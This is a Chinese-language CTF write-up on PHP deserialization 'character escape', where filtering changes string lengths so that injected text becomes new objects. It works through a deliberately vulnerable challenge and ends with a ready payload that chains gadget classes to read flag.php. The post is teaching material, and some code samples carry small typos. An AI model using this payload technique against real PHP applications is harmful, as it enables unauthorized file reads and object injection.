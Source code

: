 ﻿---
title:  关于php反序列化字符逃逸的思考
categories: [CTF]
tags: [php,web]

---

php反序列化字符逃逸：指序列化的字符串是受某函数的所谓过滤处理后，字符串的某一部分会变化但描述其长度的数字没有改变.导致PHP在按该数字读取相应长度字符串后，本来属于该字符串的内容逃逸出了成为反序列化的一个属性,并成功反序列化.
<!-- more -->


### 0x01逃逸产生的原因

1.PHP在类进行序列化时，对类中不存在的属性也会进行反序列。

```php+HTML
<?php
class c{
    public $c='ccc';    
}

$a=new C;
echo serialize($a);//输出  O:1:"C":1:{s:1:"c";s:3:"ccc";}

print_r(unserialize('O:1:"C":1:{s:1:"c";O:1:"C":1:{s:1:"c";s:3:"ccc";}}'));
//输出  C Object ( [c] => C Object ( [c] => ccc ) )
print_r(unserialize('O:1:"C":2:{s:1:"c";s:3:"ccc";s:1:"b";O:1:"C":1:{s:1:"c";s:3:"ccc";}}'));
//输出C 
//Object ( [c] => ccc [b] => C Object ( [c] => ccc ) )
?>
```

2.PHP进行反序列化时，是以';' 作为字段的分隔，以 '}'作为结尾(字符串除外)，并且是根据长度判断内容的。

```php
class B{

   public $b='B';

}
class A{
    public $a='this is a long  date';
    public $b=';s:1:"b";O:1:"B":1:{s:1:"b";s:1:"B";}}';
    
}
$a= new A;
echo serialize($a);	
//得到的结果是：
//O:1:"A":2:{s:1:"a";s:20:"this is a long date";s:1:"b";s:38:";s:1:"b";O:1:"B":1:{s:1:"b";s:1:"B";}}";}
$b=unserialize($a)
print_r($b);
//输出的是A Object ( [a] => this is a long date [b] => ;s:1:"b";O:1:"B":1:{s:1:"b";s:1:"B";}} )
```

可以看出`O:1:"A":2:{s:1:"a";s:20:"this is a long date";s:1:"b";s:38:";s:1:"b";O:1:"B":1:{s:1:"b";s:1:"B";}}";}`反序列化出来的是一个A对象有值为‘this is a long date’的字符串属性a，和值为‘;s:1:"b";O:1:"B":1:{s:1:"b";s:1:"B";}}’字符串属性b。但如果有什么特殊的原因让反例化的值产生了变化,如:

```php
//如果有什么特殊的原因让反例化的值产生了变化如"this is a long date"中的'is a long date‘去掉
$b='O:1:"A":2:{s:1:"a";s:20:"this ";s:1:"b";s:38:";s:1:"b";O:1:"B":1:{s:1:"b";s:1:"B";}}";}'
print_r($b);
//输出是A Object ( [a] => this ";s:1:"b";s:38: [b] => B Object ( [b] => B ) )
this ";s:1:"b";s:38:";s:1:
```

可以看出输出结果为一个名为A的对象有两个属性一个是值为‘’this ';s:1:"b";s:38:'的字符串属性a，另一个名为B的对象(里有名为b值为B的字符串属性)。可见在我们将`s:20:"this is a long date";s:1:"b";s:38:";`中的"this is a long date"改成“this ”后，在反序列化，仍以20的字符串长度来反序化，同时刚好20个字符后双引号和;号，于是将"this ";s:1:"b";s:38:";s:1:b"当成一个字符串。同时剩下的`O:1:"B":1:{s:1:"b";s:1:"B";}}`被当成一个对象来反序列化出来，而最后的 `";}`被忽视掉。这样就逃逸出来一个B Object。





### 0x02例题分析

```php+HTML
<?php
show_source("fget.php");
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}

class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
        return 'nice';
    }
}
$a = new A($_GET['a'],$_GET['b']);
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a))));
?>
```

审计代码发现首先发现有三个类A、B、C。仔细分析，发现class A 有用于实例化传值的`__construct`方法。再分析类发现class C里有提示可以通过`__toString()`里file_get_contents函数读取flag。在class B，中有一个`__destruct()`里有个echo可以用来触发。发现unserialize与serialize函数发现是反序列化与序列化操作，但只能对class A进行操作。

分析完代码后，我们发现我们要想的效果是

```php
$a = new A();
$b = new B();
$c = new C();
$c->c = "flag.php";
$b->b = $c;
$a->username = "1";
$a->password = $b;
echo serialize($a);
```

得到一个序列化的结果:

`O:1:"A":2:{s:8:"username";s:1:"1";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}`

但一个正常的A的对象序列化的结果为：

`O:1:"A":2:{s:8:"username";s:1:"1";s:8:"password";s:1:"1";}`

但我们可以通过php反序列化字符逃逸将`s:8:"password";s:1:"1";`替换为`O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}`来达到我们想要的结果。

但再回到原码发现我们不是直接将序列化后的字符提交给unserialize函数。而是先将class A先实例出一个对象在将这个对象序列化，再经过write与read函数后，再提交给unserialize函数执行。我们分析write与read函数发现：

```php
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
    //str_replace() 函数用法（要替换的字符，替换成的字符，要处理的字符串）
}

function read($data) {
    return str_replace('\0\0\0'比, chr(0) . '*' . chr(0), $data);
    //'\0\0\0'比chr(0) . '*' . chr(0)多了3个字符长度
}
```

我们提交的数据中用‘\0\0\0’在执行read后就少了三字符。因此我们可以构造参数$a中有多个’\0\0\0’让他执行read后多出来的字符长度用来逃逸。让php编译器将`";s:8:"password";s:60:"2`是username的值。即`$a->username=“********";s:8:"password";s:60:"2";`

```php
O:1:"A":2:{s:8:"username";s:48:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";s:74:"2";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}
//得到--〉
O:1:"A":2:{s:8:"username";s:24:"********";s:8:"password";s:60:"2";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}//*号附近两边有看不见的chr(0)

```

所以构造payload：

`a=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b=2";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}`

### 0x00参考文献

https://www.andseclab.com/2020/01/28/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%97%E7%AC%A6%E9%80%83%E9%80%B8/

https://jiang-niao.github.io/2020/04/25/%E5%AE%89%E6%81%92%E6%9C%88%E8%B5%9B%E5%9B%9B%E6%9C%88wp/

